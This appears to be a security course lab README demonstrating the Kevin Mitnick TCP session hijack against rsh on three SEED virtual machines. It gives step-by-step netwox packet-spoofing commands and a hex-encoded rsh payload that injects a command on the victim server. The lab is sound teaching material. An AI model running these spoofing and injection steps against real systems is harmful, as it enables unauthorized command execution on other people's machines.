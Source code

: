 # Kevin Mitnick Attack

## Instructions
(From Jidong Xiao's CS333 Class at Boise State University. To be used with 3 SEED Ubunutu 16.04 machines on the same virtual network)

The Kevin Mitnick Attack 

Requirement: In this demo, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this demo, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

Setup: 3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the demo, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - let's choose 9090 for example.

Steps:

Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

`sudo apt-get install rsh-redone-client`

`sudo apt-get install rsh-redone-server`

step 2. configure rsh on the victim server machine.

`$ touch .rhosts`

`$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)`

`$ chmod 644 .rhosts`

If the above configuration is correct, you should be able to run below command on the victim client machine, and it will show you current date information.

`rsh [victim server’s IP] date`

step 3. simulating the syn flooding attack.
3.1 on the victim server, run:

`sudo arp -s [victim client’s IP] [victim client’s MAC]`

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2 shutdown the victim client VM or disconnect its network.

step 4. turn on wireshark on the attacker's VM and start capturing.

Attacking steps:

step 1: create the first TCP connection. 

step 1.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

`sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514`

step 1.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

`sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1`

step 1.3: send one ACK packet to the server. This packet carries the command we want to run:

`sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00"`

step 2: create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 2.1: 

`sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1`

Verification steps:

step 1: on the victim's server machine, see if /tmp/xyz is created.

==============

Note: In netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

`[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00`

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

Note 2: In the attacking steps, right after step 1.1, we need to run step 1.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 1.3, we need to run step 2.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniifing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

`sudo sysctl -w net.ipv4.tcp_syn_retries=20`
`sudo sysctl -w net.ipv4.tcp_synack_retries=20`
